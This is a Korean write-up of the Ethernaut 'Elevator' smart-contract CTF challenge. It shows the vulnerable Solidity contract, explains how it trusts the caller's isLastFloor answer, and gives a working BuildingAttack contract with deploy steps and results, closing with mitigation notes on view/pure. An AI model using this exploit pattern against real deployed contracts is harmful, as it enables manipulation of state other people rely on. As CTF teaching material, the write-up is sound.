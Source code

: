 https://teberr.notion.site/Ethernaut-Elevator-97912ccf516249c59fbdf1249480b689

![문제파일.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3ec58b06-3805-4661-9410-d6d917aee9df/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC.png)

> 이 엘리베이터는 건물 꼭대기까지 갈 수 없습니다. 맞나요?

힌트
- 가끔식 솔리디티는 약속을 유지하기에는 좋지 않습니다.
- 이 엘리베이터는 빌딩 컨트랙트에서 사용하도록 설계되었습니다
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

# 코드 분석 및 공격 설계

```solidity
interface Building {
  function isLastFloor(uint) external returns (bool);
}
```

인터페이스인 Building은 함수 isLastFloor(uint) external returns (bool)을 가지고 있다. 이 때 인터페이스에 있는 함수 같은 경우 상속받고 나서 override를 써주면 함수를 재정의하여 줄 수 있다.

```solidity
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

핵심 부분은 Building building = Building(msg.sender); 부분이다.

Building 인터페이스를 만족하는 msg.sender 주소를 받아 building 변수에 저장한다. 

여기서 **msg.sender 주소가 Building 인터페이스를 만족하기만 하면 되기 때문에** Building 인터페이스를 상속받은 컨트랙트를 생성하여 isLastFloor를 오버라이딩하여 top이 True가 되도록 해주면 된다.

```solidity
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```

이 때 building.isLastFloor가 무조건 true일 경우 조건문 내부로 들어가지 않아서 top에 True를 저장하지 못하기 때문에 **처음에는 False, 다시 호출되었을 때는 True**를 반환하게 해줘야 한다.

그렇게 만든 컨트랙트에서 goTo를 호출하게 되면 컨트랙트의 주소가 msg.sender가 되고 이 컨트랙트는 Building 인터페이스를 충족하므로 내 컨트랙트의 isLastFloor가 실행되게 된다.

컨트랙트를 상속받을 때는 다음과 같은 구조로 받으면 된다.

```solidity
contract '새로운 컨트랙트' is '부모컨트랙트'
```

그리고 부모 컨트랙트의 함수를 오버라이딩 할 때는 

**함수명(매개변수) override**

형태로 오버라이딩 해주고 내용은 내가 원하는 대로 해주면 된다.

# 공격

먼저 인스턴스를 생성해주면 인스턴스의 주소를 얻을 수 있다.

![컨트랙트 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b8dacd35-f964-4016-b8ab-8b5f3f3950db/%EC%BB%A8%ED%8A%B8%EB%9E%99%ED%8A%B8_%EC%A3%BC%EC%86%8C.png)

```solidity
=> Instance address
0x8FaaF9976E65656Da98727C0a0BE39B8C1294b53
```

인스턴스 주소를 얻었으므로 Building 인터페이스를 상속받는 컨트랙트를 작성하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator{
    function goTo(uint _floor) external ;
}

contract BuildingAttack is Building{

    IElevator Elevator;
    bool public result = true;

    constructor(address _addr) public {
        Elevator = IElevator(_addr);
    }
    function isLastFloor(uint) override public returns(bool){
        if(result){
            result=false;
            return result;
        }
        result=true;
        return result;
        
    }

    function Attack() public {
        Elevator.goTo(1);
    }

}
```

코드 작성의 핵심은 다음과 같다.

- 처음 Deploy할 때 문제 인스턴스의 주소를 받을 수 있도록 생성자를 작성해주었다.
- 초기 result 값을 true로 하여 처음 isLastFloor가 호출되었을 때는 false를 리턴, 두번째로 호출되었을 때는 true가 리턴되도록 해주었다.
- Attack은 문제 인스턴스의 goTo함수를 호출해 주는 함수이다. floor의 숫자는 중요하지 않으므로 아무 숫자나 넣어주었다.

![Deploy.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/37a87e6c-6de1-4621-a9c0-0697cf212f6c/Deploy.png)

따라서 인스턴스의 주소를 넣어서 Deploy해주고

![attack.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4cd50b66-5e64-4fb5-a441-9c89ce9357a3/attack.png)

attack을 통해서 공격을 해주고 나면

![공격 후.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/30cca254-d8eb-4d22-b539-a0c26d4653c7/%EA%B3%B5%EA%B2%A9_%ED%9B%84.png)

```solidity
await contract.top()
true
```

문제 인스턴스의 top이 true로 된것 을 확인할 수 있다. 문제의 목적인 top을 true로 만들기(꼭대기 층에 도착하기)를 성공하였으므로 인스턴스를 제출하자.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d5f1bf66-bb32-425b-a99b-7635dd027508/%EC%84%B1%EA%B3%B5.png)

문제를 푸는데 성공했음을 확인할 수 있다.

# 문제 후기

View : function 밖의 변수들을 읽을 수 있으나 변경은 불가능 

pure : function 밖의 변수들을 읽지도 못하고 변경도 불가능

함수 밖의 상태 변수들을 의도치 않은 결과값으로 변환해 버리는 것을 막기 위해서는 함수 밖의 상태 변수를 수정하지 않는 view 를 사용한 모디파이어나 함수 밖의 상태 변수를 읽지도 쓰지도 못하는 pure 모디파이어를 이용해 막을 수 있다.
